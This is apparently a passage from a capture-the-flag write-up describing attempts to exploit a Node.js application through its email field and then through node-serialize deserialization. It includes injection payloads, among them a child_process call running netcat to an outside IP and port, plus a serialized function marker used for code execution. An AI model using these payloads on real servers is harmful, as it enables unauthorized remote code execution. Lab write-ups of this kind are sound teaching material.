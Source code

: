 ![Email Address](/assets/images/2022/02/Jason/EmailDisplayed.png "Email Address")

I looked for ways to exploit this, hopping that if I send code it might be executed. I tried multiple payloads, some with calls to `eval()`. Nothing worked.

```
{"email":"require('child_process').exec('nc 10.13.3.36 4444');"}
{"email":"eval(1+1)","command":"ls","cmd":"ls"}
```

I then searched for ways to exploit Node.js JSON parsing. That's when I found [a post about exploitng Node.js deserialization](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf).


I used a slightly modified version of the code from the post to see if my code will be executed.

```bash
cat test.js
var y = {
    email: function(){
            return 1;
    },
}
var serialize = require('node-serialize');
console.log(serialize.serialize(y));

node test.js
{"email":"_$$ND_FUNC$$_function(){\n\t    return 1;\n    }"}
```

